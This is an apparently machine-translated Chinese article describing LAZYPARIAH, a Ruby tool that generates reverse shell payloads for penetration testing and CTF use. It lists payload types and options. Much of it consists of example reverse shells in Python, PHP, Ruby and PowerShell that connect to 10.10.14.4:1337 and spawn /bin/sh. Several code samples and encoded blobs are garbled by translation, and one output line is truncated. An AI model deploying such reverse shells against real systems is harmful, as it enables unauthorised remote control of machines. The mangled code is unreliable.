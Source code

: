 # LAZYPARIAH:一个动态生成反向 Shell 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/lazypariah/>

[![](img//29790474ab88f4b7215805e43ba20b2f.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZCudEpJu0LQxt0uvLIuREPY0uuhWSOxum6J0-dozRToTqzYxCqOSLB4qW_SDf6R5qJ37sx9dwLRNdXlU1ZnoxWwgX1TUIN_T73Sq8BW-eoSolJpr2gUMQrLHQMKCbK0lFYvgiy21ZHXlzsYR1tIdYJ2QcIPuwNlfSEBcLHrEiMYVMXSvPCyc3IGgv/s728/download%20(1).png)

LAZYPARIAH 是一个用纯 Ruby 编写的简单且易于安装的命令行工具，可以在渗透测试和夺旗(CTF)竞赛中使用，以动态生成一系列反向 shell 有效负载。

LAZYPARIAH 支持的反向 shell 有效负载包括(但不限于):

*   c 二进制有效载荷(动态编译):`**c_binary**`
*   Ruby 有效载荷:**`ruby``ruby_b64``ruby_hex``ruby_c`**
*   Powershell 有效载荷: **`powershell_c`，`powershell_b64`**
*   Base64 编码的 Python 负载:`**python_b64**`
*   Rust 二进制有效载荷(动态编译):`**rust_binary**`
*   包含 base64 编码的 Python 有效负载的 PHP 脚本通过`**system()**`函数调用:`**php_system_python_b64**`
*   Java 类(动态编译):`**java_class**`
*   Perl 有效负载:**、`perl`、`perl_b64`、`perl_hex`、`perl_c`、**
*   简单的 PHP 有效负载(针对特定的文件描述符): **`php_fd`，`php_fd_c`，`php_fd_tags`，**

## 警告

该工具旨在仅由合格的渗透测试人员、安全研究人员和红队专业人员在授权的情况下使用。在下载、安装或使用此工具之前，请确保您了解您所在司法管辖区的相关法律。本工具的作者不认可、鼓励或纵容将本工具用于非法或未经授权的目的。

## 依赖关系

*   Ruby >= 2.7.1 (LAZYPARIAH 尚未在以前版本的 Ruby 上进行测试)
*   OpenJDK(可选:仅对于`**java_class**`有效载荷是必需的。)
*   GCC(可选:仅`**c_binary**`有效载荷需要。)
*   Rust(可选:仅`**rust_binary**`有效载荷需要。)

## 安装

LAZYPARIAH 可以使用 RubyGems 安装程序安装在大多数 GNU/Linux 和 BSD 系统上，如下所示:

**宝石安装懒人**

## 使用

**用法:lazypariah【选项】
注意:可能是 IPv4 地址、IPv6 地址或主机名。
示例:lazy pariah-u python _ b64 10 . 10 . 14 . 4 1555
示例:lazypariah python_c 恶意. local 1337
有效载荷:
awk
bash _ TCP
c _ binary
Java _ class
NC
NC _ openbsd
NC _ pipe
nodejs
nodejs _ b64
nodejs _ c ruby
ruby _ b64
ruby _ c
ruby _ hex
rust _ binary
socat
有效选项:
-h，–help 显示帮助文本并退出。
-l，–许可显示许可信息并退出。
-u，–URL URL-对有效负载进行编码。
-v，–版本显示版本信息并退出。
-D，–FD INTEGER 指定 TCP 的目标使用的文件描述符。某些有效载荷需要。
-P，–PV INTEGER 指定有效负载的 Python 版本。必须是 2 或 3。默认情况下，没有指定版本。
-N，–no-new-line 不要在有效负载的末尾添加新行字符。
–b64 以 base-64 编码 c_binary、rust_binary 或 java_class 有效负载。
–十六进制编码十六进制的 c_binary、rust_binary 或 java_class 有效负载。
–gzip 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载。
–gzip _ b64 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并以 base-64 编码结果。
–gzip _ hex 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并将结果编码为十六进制。**

## 更多注释和示例

上面列出的有效载荷或多或少都有系统的名称。

以`**_c**`结尾的有效负载旨在从 shell 会话中执行。这些有效载荷使用相关的解释器(如`**python3 -c**`或`**ruby -e**`)直接执行代码。

例如，命令`**lazypariah python_c 10.10.14.4 1337**`应该产生以下输出:

**python -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

另一方面，命令`**lazypariah python 10.10.14.4 1337**`应该简单地产生一个 Python 代码块，该代码块有可能被放在一个`**.py**`文件中:

**导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；**

一般来说，选择以`**_b64**`结尾的有效负载应该会产生一个命令，该命令旨在以类似于以`**_c**`结尾的有效负载的方式从 shell 会话中运行，但是这些命令在结构上会有所不同。这些命令将基本上通过管道把一个 base64 编码的代码块传递给`**base64 -d**`，然后传递给相关的解释器(比如`**python3**`、`**python2**`或`**ruby**`)。

例如，命令`**lazypariah python_b64 10.10.14.4 1337**`应该产生以下输出:

**echo aw 1wb 3j 0 ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzqzzzzzb 2 nrzquzzzzzq su 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffffffffff0po 3 非常 29 ubmvjdcgoiyeljljevljje 0 ljqildzmldzdcpkttvcy 5 kdxayhmzmlszw 5 vkcksmck 7 ig 9**

例外的是`**powershell_b64**`，它使用 Powershell 内置的 base64 解码器。例如，命令`**lazypariah powershell_b64 10.10.14.4 1337**`应该返回以下内容:

**powershell-e jajajajagawablag 4 adaagad 0 AIA guadatae 8 aygbqaguayb0 acaauwb 5 Ahmad abag 0 alguadaguadaau afmabwajagssazqb 0 ahmalgalgalgebanmar abdagwablag 4 adaaoamqawac 4 amqawac 4 amqa 0 AC 4 anaanaanaanaanakawamqazamadmanwapasajazaqacgblabqagad 0 aiaagmababpagabab 0 AC 4 arwbalaqauwb 0**

(注意:上述有效负载的长度是由于 Powershell 使用 UTF-16LE 编码，其中一个字符对应两个字节。)

这些类型的有效负载在某些情况下非常有用，因为它们不包含任何单引号或双引号。

以类似的方式，选择以`**_hex**`结尾的有效负载将产生一个命令，将十六进制编码的代码块传送到`**xxd -p -r -**`，然后传送到相关的解释器。例如，`**lazypariah perl_hex 10.10.14.4 1337**`应该产生以下输出:

回声 75736520536 f 636 b 65743 b 24693d 2231302 e 31302 e 31342 e 34223 b 24703d 3133333373 b 736 f 636 b 657428532 c 50465 f 494 e 45542 c 534 f 434 b 5 f 53545245414d 2c 6765747077

编译后的有效负载( **`c_binary`、`java_class`** 和`**rust_binary**`)有可选的命令行参数，用于 zlib 压缩(`**--gzip**`)、base64 编码(`**--b64**`)和十六进制编码(`**--hex**`)。

例如，命令`**lazypariah --b64 java_class 10.10.14.4 1337**`应该产生以下输出:

**yv 66 vgaaadca xwhqapbwabwabwaqagaac 0 kaaiagavbwawcaaxcgaadikakamcmawoaiwa 0 cgaidmkakakakacykacynajaa 1 cgiadykakakakakachuogunaaamgoaowa 8 cgajad 0 had 4 kamapwobwabbbbwabbwabwabqxq+aqadkclwaqaeq 29 kzqed 0 xpbmvodw 1 izjuyzqvn 0**

在分别使用`**--gzip_b64**`和`**--gzip_hex**`命令行参数以 base64 或十六进制编码之前，也可以对上述编译后的负载之一执行 zlib 压缩。例如，命令`**lazypariah --gzip_hex java_class 10.10.14.4 1337**`应该产生以下输出:

**1f 8b 08003 ca 25960000375535d 57125114 DD 83335 ca 0511431 a 53433 b 5f 00 bb 42 c13 cc 4a 3200 DCD 5 a 03 DC 741419 d7cc 50 f 6577 ca 8b57 cf 1 b55 EB 095 ab 7e 403 fa 6d 52 fc8 ce 0549 c91 ae6 cced 9779 F7 BCE 9939 F3 FDD 7976 f 0046 f 0 ca 8336 f 430**

一些有效负载要求用户指定 TCP 连接的目标使用的文件描述符。这种有效载荷的一个例子是`**php_fd_tags**`，它是一个简单的 PHP 有效载荷，包含在 PHP 标签(`**<?php**`和`**?>**`)中，目标是一个特定的文件描述符。

要指定目标文件描述符，用户必须使用命令行参数`**-D INTEGER**`或`**--fd INTEGER**`。例如，要生成以文件描述符`5`为目标的`p**hp_fd_tags**`有效负载，可以使用下面的命令:`**lazypariah -D 5 php_fd_tags 10.10.14.4 1337**`

由此产生的有效载荷应该如下:`**<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&5 >&5** **2>&5");?>**`

下面是一些命令及其各自输出的示例。

命令`**lazypariah -P 3 -u python_b64 10.10.14.4 1337**`的输出:

**echo % 20aw 1wb 3j0ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzzquzb 2 nrzquzzzsu 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffqpo ljje 0 ljqildzmldzdcpkttvcy 5 kdyhmzmlszw 5 vkcmck 7**

命令`**lazypariah -P 2 python_c 10.10.14.4 1337**`的输出:

**python 2-c’导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

命令`**lazypariah -D 3 php_fd_tags 10.10.14.4 1337**`的输出:

**&3>2&3】；？>**

命令`**lazypariah ruby 10.10.14.4 1337**`的输出:

**要求“插座”；如果分叉则退出；c = TCP socket . new(" 10 . 10 . 14 . 4 " 1337 ")；while(cmd = c . gets)；IO.popen(cmd，" r"){|io|c.print io.read}end**

[Download](https://github.com/octetsplicer/LAZYPARIAH#usage)